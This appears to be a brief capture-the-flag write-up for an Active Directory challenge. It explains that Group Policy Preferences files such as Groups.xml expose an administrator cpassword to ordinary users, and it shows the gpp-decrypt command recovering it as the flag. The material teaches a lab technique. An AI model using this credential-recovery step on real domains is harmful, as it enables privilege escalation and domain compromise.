

# Active Directory

## Solution:

People might be aware of “Group Policy Preferences” in Windows Server 2008 that allows system administrators to set up specific configurations. It can be used to create a username and encrypted password on machines. But do you know, that a normal user can elevate privilege to the local administrator and probably compromise the security of the entire domain because passwords in preference items are not secured?

we notice **Groups.xml** in one of the folders



it contains the administrator cpassword 

```
gpp-decrypt 3g4TWcMxZ0ZrE2jVR7dTo35mGErheJS8w6opX3UW9a3FvxHRskfK/CUOf1GBB8z7MYH1u8jUnJxHZs7DjYM0bQ
b00t2root{Grp_p0l1c13s_sUck}
```
**gpp-decrypt** already exists in kali linux

read this for more information: 
https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/

